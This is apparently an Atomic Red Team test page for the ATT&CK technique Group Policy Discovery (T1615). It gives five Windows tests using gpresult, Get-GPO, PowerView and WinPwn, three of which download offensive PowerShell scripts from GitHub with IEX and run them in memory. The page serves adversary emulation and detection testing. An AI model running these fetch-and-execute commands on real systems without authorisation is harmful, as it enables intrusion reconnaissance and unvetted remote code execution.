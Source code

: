 # T1615 - Group Policy Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1615)
<blockquote>

Adversaries may gather information on Group Policy settings to identify paths for privilege escalation, security measures applied within a domain, and to discover patterns in domain objects that can be manipulated or used to blend in the environment. Group Policy allows for centralized management of user and computer settings in Active Directory (AD). Group policy objects (GPOs) are containers for group policy settings made up of files stored within a predictable network path `\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\`.(Citation: TechNet Group Policy Basics)(Citation: ADSecurity GPO Persistence 2016)

Adversaries may use commands such as <code>gpresult</code> or various publicly available PowerShell functions, such as <code>Get-DomainGPO</code> and <code>Get-DomainGPOLocalGroup</code>, to gather information on Group Policy settings.(Citation: Microsoft gpresult)(Citation: Github PowerShell Empire) Adversaries may use this information to shape follow-on behaviors, including determining potential attack paths within the target network as well as opportunities to manipulate Group Policy settings (i.e. [Domain or Tenant Policy Modification](https://attack.mitre.org/techniques/T1484)) for their benefit.

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Display group policy information via gpresult](#atomic-test-1---display-group-policy-information-via-gpresult)

- [Atomic Test #2 - Get-DomainGPO to display group policy information via PowerView](#atomic-test-2---get-domaingpo-to-display-group-policy-information-via-powerview)

- [Atomic Test #3 - WinPwn - GPOAudit](#atomic-test-3---winpwn---gpoaudit)

- [Atomic Test #4 - WinPwn - GPORemoteAccessPolicy](#atomic-test-4---winpwn---gporemoteaccesspolicy)

- [Atomic Test #5 - MSFT Get-GPO Cmdlet](#atomic-test-5---msft-get-gpo-cmdlet)


<br/>

## Atomic Test #1 - Display group policy information via gpresult
Uses the built-in Windows utility gpresult to display the Resultant Set of Policy (RSoP) information for a remote user and computer
The /z parameter displays all available information about Group Policy. More parameters can be found in the linked Microsoft documentation
https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/gpresult
https://unit42.paloaltonetworks.com/emissary-trojan-changelog-did-operation-lotus-blossom-cause-it-to-evolve/
Turla has used the /z and /v parameters: https://www.welivesecurity.com/wp-content/uploads/2020/05/ESET_Turla_ComRAT.pdf

**Supported Platforms:** Windows


**auto_generated_guid:** 0976990f-53b1-4d3f-a185-6df5be429d3b






#### Attack Commands: Run with `command_prompt`! 


```cmd
gpresult /z
```






<br/>
<br/>

## Atomic Test #2 - Get-DomainGPO to display group policy information via PowerView
Use PowerView to Get-DomainGPO This will only work on Windows 10 Enterprise and A DC Windows 2019.

**Supported Platforms:** Windows


**auto_generated_guid:** 4e524c4e-0e02-49aa-8df5-93f3f7959b9f






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://github.com/BC-SECURITY/Empire/blob/86921fbbf4945441e2f9d9e7712c5a6e96eed0f3/empire/server/data/module_source/situational_awareness/network/powerview.ps1'); Get-DomainGPO"
```






<br/>
<br/>

## Atomic Test #3 - WinPwn - GPOAudit
Check domain Group policies for common misconfigurations using Grouper2 via GPOAudit function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** bc25c04b-841e-4965-855f-d1f645d7ab73






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/WinPwn.ps1')
GPOAudit -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #4 - WinPwn - GPORemoteAccessPolicy
Enumerate remote access policies through group policy using GPORemoteAccessPolicy function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 7230d01a-0a72-4bd5-9d7f-c6d472bc6a59






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/WinPwn.ps1')
GPORemoteAccessPolicy -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #5 - MSFT Get-GPO Cmdlet
The Get-GPO cmdlet gets one Group Policy Object (GPO) or all the GPOs in a domain. Tested on Windows Server 2019 as a domain user with computer joined to domain. Reference: https://docs.microsoft.com/en-us/powershell/module/grouppolicy/get-gpo?view=windowsserver2022-ps

**Supported Platforms:** Windows


**auto_generated_guid:** 52778a8f-a10b-41a4-9eae-52ddb74072bf





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| gpo_output | The output of the Get-GPO cmdlet | string | $env:temp&#92;GPO_Output.txt|
| gpo_param | You can specify a GPO by its display name or by its globally unique identifier (GUID) to get a single GPO, or you can get all the GPOs in the domain through the All parameter | string | -All|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Get-GPO -Domain $ENV:userdnsdomain #{gpo_param} >> #{gpo_output}
```

#### Cleanup Commands:
```powershell
del $env:temp\GPO_Output.txt -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: Add Rsat.ActiveDirectory.DS
##### Check Prereq Commands:
```powershell
if(Get-WindowsCapability -Online -Name Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0 | Where-Object { $_.State -eq 'Installed' }){ exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
Add-WindowsCapability -online -Name Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0
```
##### Description: Add Rsat.GroupPolicy.Management.Tools ###Two RSAT Modules needed for this to work on Win10, WinServer 2019 works by default. This will take a long time (almost 2 minutes) to install RSAT Manually###.
##### Check Prereq Commands:
```powershell
if(Get-WindowsCapability -Online -Name Rsat.GroupPolicy.Management.Tools~~~~0.0.1.0 | Where-Object { $_.State -eq 'Installed' }){ exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
Add-WindowsCapability -online -Name Rsat.GroupPolicy.Management.Tools~~~~0.0.1.0
```




<br/>

